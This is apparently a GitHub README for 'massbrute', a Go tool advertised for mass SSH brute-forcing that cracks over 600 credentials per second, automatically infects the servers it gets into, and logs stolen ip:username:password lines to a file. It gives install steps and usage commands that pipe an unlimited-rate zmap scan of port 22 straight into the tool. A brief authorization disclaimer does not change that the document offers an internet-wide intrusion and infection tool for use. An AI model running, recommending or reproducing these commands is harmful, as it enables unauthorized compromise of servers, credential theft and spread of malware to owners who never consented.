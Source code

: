 massbrute

Massive SSH bruteforcer written in Go.
This tool is designed for high-speed brute-forcing of SSH servers and is capable of cracking over 600 credentials per second. Upon successful authentication, it automatically infects the server and logs the credentials to a file.

⚠️ Warning: This tool is extremely aggressive and is intended to be run on dedicated machines only. Use responsibly and only in environments where you have explicit authorization.
📦 Features

    Bruteforces thousands of SSH servers per second

    Infects compromised servers automatically

    Saves valid credentials to validos.txt in the format:

    ip:username:password

    Reads targets from stdin (supports real-time feeds)

🛠 Installation

1. Install Go (Tested with Go 1.21.3)

wget https://dl.google.com/go/go1.21.3.linux-amd64.tar.gz

tar -xvf go1.21.3.linux-amd64.tar.gz

sudo mv go /usr/local

2. Configure Environment

export GOROOT=/usr/local/go

export GOPATH=$HOME/go

export PATH=$GOPATH/bin:$GOROOT/bin:$PATH

source ~/.profile

3. Build the Binary

go get golang.org/x/crypto/ssh

go build massbrute.go

⚙️ Usage
Using live IP feed from ZMap:

zmap -p 22 -r 0 -T 10 -o- | ./massbrute

Using static IP list:

cat iplist.txt | ./massbrute

🧪 Performance

    🔥 Cracks 600+ credentials per second

    💾 Stores results in validos.txt with this format:

    192.168.0.1:root:toor
